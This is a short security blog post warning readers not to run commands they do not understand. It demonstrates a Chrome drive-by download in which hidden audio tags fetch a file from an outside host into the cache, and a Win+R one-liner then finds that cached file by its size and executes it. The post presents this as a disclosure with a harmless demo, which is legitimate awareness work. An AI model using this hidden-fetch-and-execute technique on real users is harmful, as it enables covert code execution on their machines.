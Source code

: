 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if this seemingly harmless command is entered in a **Win+R** prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC is a harmless demo
  * Chiptune in PoC is (c) 1999 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
